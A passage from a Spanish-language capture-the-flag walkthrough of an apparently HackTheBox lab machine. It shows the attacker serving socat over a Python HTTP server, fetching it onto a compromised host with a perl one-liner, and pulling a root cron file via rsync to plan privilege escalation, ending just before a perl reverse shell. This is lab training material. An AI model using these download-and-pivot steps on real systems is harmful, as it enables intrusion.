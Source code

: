 ### Ya en este punto tenemos respuesta en nuestra máquina de atacante, con una petición en 200

```abap
┌─[root@parrot]─[/mnt/angussMoody/Scripts/Static/linux]
└──╼ #python3 -m http.server 8084
Serving HTTP on 0.0.0.0 port 8084 (http://0.0.0.0:8084/) ...
10.129.229.102 - - [28/Sep/2021 21:08:16] "GET /socat HTTP/1.1" 304 -
10.129.229.102 - - [28/Sep/2021 21:08:17] "GET /socat HTTP/1.0" 200 -
```

### Y en nuestra máquina www ya tenemos el socat

```abap
www-data@www:/tmp$ perl -e 'use File::Fetch; my $url = "http://172.19.0.4:5555/socat"; my $ff = File::Fetch->new(uri=>$url); my $file = $ff->fetch() or die $ff->eror'
'httptiny' said it fetched '/tmp/socat', but it was not created at -e line 1.
www-data@www:/tmp$ ls
socat  test.rdb
www-data@www:/tmp$
```

### Subimos es socat porque la máquina backup tiene una tarea cron corriendo

```abap
www-data@www:/tmp$ rsync rsync://backup:873/src/etc/cron.d/
drwxr-xr-x          4,096 2018/07/15 17:42:39 .
-rw-r--r--            102 2015/06/11 10:23:47 .placeholder
-rw-r--r--             29 2018/05/04 20:57:55 clean
www-data@www:/tmp$
```

### Vamos a traernos ese clean a nuestro equipo para ver que está realizando y vemos que como el usuario root está realizando un rm -rf de /rdb/

```abap
www-data@www:/tmp$ rsync rsync://backup:873/src/etc/cron.d/clean .
www-data@www:/tmp$ cat clean 
* * * * * root rm -rf /rdb/*
www-data@www:/tmp$
```

### Ahora como sabemos que la máquina tiene perl vamos a crearnos una reverse shell en perl a la máquina www
